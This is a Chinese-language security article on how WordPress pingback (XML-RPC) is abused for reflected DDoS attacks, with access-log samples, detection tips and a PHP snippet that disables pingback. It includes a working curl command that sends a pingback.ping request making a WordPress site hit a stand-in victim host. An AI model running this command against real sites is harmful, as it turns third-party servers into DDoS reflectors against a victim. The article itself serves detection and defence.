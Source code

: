 # 超过16W的WordPress网站被用来做DDoS攻击

![enter image description here](http://drops.javaweb.org/uploads/images/8b767b391f09fa78c6f8da9910c1117f3efcd6ca.jpg)

任何开启了Pingback（默认就开启）的WordPress的站点可以被用来做DDOS攻击其它服务器。

看如下日志：

```
74.86.132.186 - - [09/Mar/2014:11:05:27 -0400] "GET /?4137049=6431829 HTTP/1.0" 403 0 "-" "WordPress/3.8; http://www.mtbgearreview.com"
121.127.254.2 - - [09/Mar/2014:11:05:27 -0400] "GET /?4758117=5073922 HTTP/1.0" 403 0 "-" "WordPress/3.4.2; http://www.kschunvmo.com" 
217.160.253.21 - - [09/Mar/2014:11:05:27 -0400] "GET /?7190851=6824134 HTTP/1.0" 403 0 "-" "WordPress/3.8.1; http://www.intoxzone.fr" 
193.197.34.216 - - [09/Mar/2014:11:05:27 -0400] "GET /?3162504=9747583 HTTP/1.0" 403 0 "-" "WordPress/2.9.2; http://www.verwaltungmodern.de" 
..

```

可以发现每次请求还增加了随机数`/?3162504=9747583`以此来绕过缓存。

测试这种攻击方式只需要一个curl命令就可以了：

```
$ curl -D -  "www.anywordpresssite.com/xmlrpc.php" -d '<methodCall><methodName>pingback.ping</methodName><params><param><value><string>http://victim.com</string></value></param><param><value><string>www.anywordpresssite.com/postchosen</string></value></param></params></methodCall>'

```

想要看你自己的网站是否被用来做了攻击可以查看日志当中是否包含类似如下的内容：

```
93.174.93.72 - - [09/Mar/2014:20:11:34 -0400] "POST /xmlrpc.php HTTP/1.0" 403 4034 "-" "-" "POSTREQUEST:<?xml version=\x221.0\x22 encoding=\x22iso-8859-1\x22?>\x0A<methodCall>\x0A<methodName>pingback.ping</methodName>\x0A<params>\x0A <param>\x0A  <value>\x0A   <string>http://fastbet99.com/?1698491=8940641</string>\x0A  </value>\x0A </param>\x0A <param>\x0A  <value>\x0A   <string>yoursite.com</string>\x0A  </value>\x0A </param>\x0A</params>\x0A</methodCall>\x0A"

94.102.63.238 – - [09/Mar/2014:23:21:01 -0400] "POST /xmlrpc.php HTTP/1.0" 403 4034 "-" "-" "POSTREQUEST:\x0A\x0Apingback.ping\x0A\x0A \x0A \x0A http://www.guttercleanerlondon.co.uk/?7964015=3863899\x0A \x0A \x0A \x0A \x0A yoursite.com\x0A \x0A \x0A\x0A\x0A"

```

防御此问题的推荐方法需要屏蔽 XML-RPC (pingback) 的功能，WordPress主题中添加如下代码：

```
add_filter( 'xmlrpc_methods', function( $methods ) {
   unset( $methods['pingback.ping'] );
   return $methods;
} );
```
